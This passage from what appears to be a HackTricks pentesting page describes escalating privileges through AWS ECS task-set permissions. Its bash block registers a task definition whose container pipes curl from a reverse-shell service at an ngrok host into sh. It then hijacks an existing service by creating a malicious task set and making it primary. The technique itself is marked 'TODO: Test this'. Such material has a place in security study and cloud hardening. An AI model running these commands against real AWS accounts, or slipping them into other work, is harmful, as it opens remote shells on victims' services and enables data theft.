{% content-ref url="aws-ec2-privesc.md" %}
[aws-ec2-privesc.md](aws-ec2-privesc.md)
{% endcontent-ref %}

### `?ecs:RegisterContainerInstance`

TODO: Is it possible to register an instance from a different AWS account so tasks are run under machines controlled by the attacker??

### `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, `ecs:DescribeTaskSets`

{% hint style="info" %}
TODO: Test this
{% endhint %}

An attacker with the permissions `ecs:CreateTaskSet`, `ecs:UpdateServicePrimaryTaskSet`, and `ecs:DescribeTaskSets` can **create a malicious task set for an existing ECS service and update the primary task set**. This allows the attacker to **execute arbitrary code within the service**.

```bash
bashCopy code# Register a task definition with a reverse shell
echo '{
  "family": "malicious-task",
  "containerDefinitions": [
    {
      "name": "malicious-container",
      "image": "alpine",
      "command": [
        "sh",
        "-c",
        "apk add --update curl && curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | sh"
      ]
    }
  ]
}' > malicious-task-definition.json

aws ecs register-task-definition --cli-input-json file://malicious-task-definition.json

# Create a malicious task set for the existing service
aws ecs create-task-set --cluster existing-cluster --service existing-service --task-definition malicious-task --network-configuration "awsvpcConfiguration={subnets=[subnet-0e2b3f6c],securityGroups=[sg-0f9a6a76],assignPublicIp=ENABLED}"

# Update the primary task set for the service
aws ecs update-service-primary-task-set --cluster existing-cluster --service existing-service --primary-task-set arn:aws:ecs:region:123456789012:task-set/existing-cluster/existing-service/malicious-task-set-id
```

**Potential Impact**: Execute arbitrary code in the affected service, potentially impacting its functionality or exfiltrating sensitive data.

## References

* [https://ruse.tech/blogs/ecs-attack-methods](https://ruse.tech/blogs/ecs-attack-methods)

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>
